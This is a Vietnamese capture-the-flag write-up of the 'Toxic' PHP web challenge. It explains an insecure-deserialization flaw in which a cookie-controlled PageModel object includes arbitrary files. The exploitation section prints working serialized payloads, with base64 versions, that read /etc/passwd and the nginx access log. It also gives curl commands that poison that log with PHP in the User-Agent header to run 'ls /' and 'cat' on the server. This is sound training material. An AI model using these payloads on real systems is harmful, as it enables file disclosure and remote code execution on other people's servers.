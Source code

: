 # `CHALLENGE DESCRIPTION`

<table>
<th style="text-align: center">
<img width="600" height="1">

```
CHALLENGE INFO
```

</th>

<th style="text-align: center">
<img width="282" height="1">

```
TABLE OF CONTENT
```

</th>
<tr>

<td width="600">      

<code> Toxic </code>

Humanity has exploited our allies, the dart frogs, for far too long, take back the freedom of our lovely poisonous friends. Malicious input is out of the question when dart frogs meet industrialisation. 🐸

**Tags:** `PHP`, `source-code-analysis`, `insecure-deserialization`, `log-poisioning`

</td>

<td>
<img width="600" height="1">

- [`CHALLENGE DESCRIPTION`](#challenge-description)
- [`QUICK PREVIEW`](#quick-preview)
- [`SOURCE CODE ANALYSIS`](#source-code-analysis)
- [`EXPLOITAION`](#exploitaion)
	- [Log Poisoning](#log-poisoning)
	- [`👽` Get Flag](#-get-flag)
</td>

</tr></table>

# `QUICK PREVIEW`

Đây là một bài White Box, chúng ta được cung cấp source code của Web App.

Sau khi giải nén folder `Toxic.zip`, ta được folder có cấu trúc như sau: 

```shell
Toxic
└── web_toxic
    ├── challenge
    │   ├── models
    │   │   └── PageModel.php
    │   ├── static
    │   │   ├── basement
    │   │   ├── css
    │   │   ├── images
    │   │   └── js
    │   ├── index.html
    │   └── index.php
    ├── config
    │   ├── fpm.conf
    │   ├── nginx.conf
    │   └── supervisord.conf
    ├── build-docker.sh
    ├── Dockerfile
    ├── entrypoint.sh
    └── flag
```

→ Ta có cái nhìn sơ lược về Web App: 
+ Web Tech: `PHP`
+ Server: `nginx` 

Đây là giao diện của trang web

![](../../attachments/Pasted%20image%2020220727042358.png)

→ Mình chưa tìm thấy tính năng gì của trang web cả. → Đọc source code thôi!

# `SOURCE CODE ANALYSIS`
Khi mình đọc được code của file `index.php`, mình biết được sự tồn tại của cookie cũng như cách hình thành nên nó.

App sẽ tạo giá trị của cookie bằng cách thực hiện quá trình `serialize` biến `$page`, sau đó encode bằng thuật toán base64. Đồng thời cũng gán thời gian tồn tại của `cookie` là 86400 giây.

```php
<?php

spl_autoload_register(function ($name){
    if (preg_match('/Model$/', $name))
    {
        $name = "models/${name}";
    }
    include_once "${name}.php";
});

if (empty($_COOKIE['PHPSESSID']))
{
    $page = new PageModel;
    $page->file = '/www/index.html';

    setcookie(
        'PHPSESSID',
        base64_encode(serialize($page)),
        time()+60*60*24,
        '/'
    );
}

$cookie = base64_decode($_COOKIE['PHPSESSID']);

unserialize($cookie);
```

Nhìn kĩ lại biến `$page` là một `object PageModel`, vậy PageModel này là gì ? Tiếp tục nhìn source code, mình phát hiện file `PageModel.php` nằm trong folder `Toxic\web_toxic\challenge\models\` có nội dung như sau:

```php
<?php
class PageModel
{
    public $file;

    public function __destruct()
    {
        include($this->file);
    }
}
```

→ PageModel là một object có 1 property là `$file` và một magic method là `__destruct()` (method này sẽ tự động được gọi khi  1 object PageModel không được sử dụng nữa, cụ thể [here](https://www.php.net/manual/en/language.oop5.decon.php#object.destruct))

Ở đây, app đã bị lỗi `Insecure deserialization`.  Bởi những chuỗi các yếu tố liên kết sau:

+ `Untrusted Data` ( `$_COOKIE['PHPSESSID']` ) rơi vào quá trình `Deserialize`
+ Một `object` có `magic method` thực thi một `sink` nguy hiểm ( `include()` )

# `EXPLOITAION`

Quá trình exploit khá đơn giản (khi chưa bị Object Injection cũng như Gadget Chains).

Đầu tiên, mình sẽ xem hình dạng của cookie trước và sau khi decode base64 như thế nào. Và trông mặt mũi một object khi được seriallize.

![](../../attachments/Pasted%20image%2020220727051536.png)

Sau khi decode base64, cookie của ta có giá trị như sau:

![](../../attachments/Pasted%20image%2020220727051637.png)

Bắt đầu exploit bằng một payload đơn giản, mục đích của payload này là đọc được file /etc/passwd. Và mình sẽ thử modify cookie lại cho đúng syntax của một object sau khi seriallize như sau:

```
O:9:"PageModel":1:{s:4:"file";s:11:"/etc/passwd";}
```

> Để đảm bảo đúng cấu trúc syntax của một object khi seriallize thì có thể tham khảo thêm [here](https://www.php.net/manual/en/function.serialize.php). 

Tiếp theo thực hiện encode base64 lại object.

```shell
Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxMToiL2V0Yy9wYXNzd2QiO30=
```

Quăng vào cookie của trang web và xem kết quả:

![](../../attachments/Pasted%20image%2020220727052012.png)

→ Ngon. Hoàn toàn đọc được file /etc/passwd của server.

## Log Poisoning

Cũng tương tự, mình sẽ tạo ra 1 payload để có thể đọc được `file log` của server. Để biết file này nằm đâu ta có thể xem cho file `Docker` của src.

```
O:9:"PageModel":1:{s:4:"file";s:25:"/var/log/nginx/access.log";}
```

```shell
Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQ==
```

Tiếp theo mình sẽ thực hiện gửi một cú request với User-Agent như dưới:

```console
kali@kali:~$ curl -I http://46.101.2.216:30602/ -A "<?php echo 1+1;?>"
HTTP/1.1 200 OK
<--SNIP-->
```

Đây là kết quả

![](../../attachments/Pasted%20image%2020220727053231.png)

Payload đơn giản hoạt động tốt, tiếp đến ta sẽ thực hiện list ra xem thư mục root có những gì

```
kali@kali:~$ curl -I http://46.101.2.216:30602/ -A  "<?php system('ls /');?>"
HTTP/1.1 200 OK
Server: nginx
Date: Tue, 26 Jul 2022 22:06:08 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
X-Powered-By: PHP/7.4.15
Set-Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxNToiL3d3dy9pbmRleC5odG1sIjt9; expires=Wed, 27-Jul-2022 22:06:08 GMT; Max-Age=86400; path=/
```

Kết quả:

![](../../attachments/Pasted%20image%2020220727053501.png)

## `👽` Get Flag 

Tiến hành đọc FLAG thôi

```
kali@kali:~$ curl -I http://46.101.2.216:30602/ -A  "<?php system('cat /flag_Wqi4U');?>"
HTTP/1.1 200 OK
Server: nginx
Date: Tue, 26 Jul 2022 22:06:26 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
X-Powered-By: PHP/7.4.15
Set-Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxNToiL3d3dy9pbmRleC5odG1sIjt9; expires=Wed, 27-Jul-2022 22:06:26 GMT; Max-Age=86400; path=/
```

![](../../attachments/Pasted%20image%2020220727053924.png)


